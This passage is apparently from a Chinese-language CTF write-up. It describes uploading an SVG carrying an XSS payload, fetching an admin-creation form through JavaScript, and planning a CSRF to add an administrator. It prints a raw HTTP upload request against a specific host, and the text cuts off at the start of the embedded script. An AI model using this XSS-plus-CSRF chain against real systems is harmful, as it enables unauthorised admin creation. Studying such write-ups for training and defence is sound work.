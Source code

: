 ![pockr1](/img/in-post/pockr-wirteup/图片 25.png)

> SVG？想到了content修改上传xss payload。试一下

![pockr1](/img/in-post/pockr-wirteup/图片 26.png)

> 盲打到了，但是应该有添加httponly,所以并没有获得到cookie

![pockr1](/img/in-post/pockr-wirteup/图片 27.png)

> 看一下页面源码，有一个添加管理员用户的页面，感觉可以利用CSRF进行管理员添加，先使用js获得那个页面源码。

![pockr1](/img/in-post/pockr-wirteup/图片 28.png)

![pockr1](/img/in-post/pockr-wirteup/图片 29.png)

> 得到添加管理员form表单的源码

![pockr1](/img/in-post/pockr-wirteup/图片 30.png)

> 获得表单了，配合使用CSRF添加管理员
>
> Csrf新增管理员

```http
POST /App_User_Api/upload_img HTTP/1.1
Content-Type: multipart/form-data; boundary=dee39b8c-116a-4b58-86fa-8b29c77b14be
Content-Length: 1143
Host: 39.108.218.120:8126
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.7.0
	
--dee39b8c-116a-4b58-86fa-8b29c77b14be
Content-Disposition: form-data; name="name"
Content-Length: 4

pockr
--dee39b8c-116a-4b58-86fa-8b29c77b14be
Content-Disposition: form-data; name="realname"
Content-Length: 3

123
--dee39b8c-116a-4b58-86fa-8b29c77b14be
Content-Disposition: form-data; name="idnumber"
Content-Length: 3

456
--dee39b8c-116a-4b58-86fa-8b29c77b14be
Content-Disposition: form-data; name="timestamp"
Content-Length: 13

1517716447950
--dee39b8c-116a-4b58-86fa-8b29c77b14be
Content-Disposition: form-data; name="signature"
Content-Length: 32

9c3c2585a60c627088adcc2638eec0b8
--dee39b8c-116a-4b58-86fa-8b29c77b14be
Content-Disposition: form-data; name="userfile"; filename="1be32a81fa39fea5.svg"
Content-Type: image/svg+xml
Content-Length: 1209

<script>
$.ajax( { 
```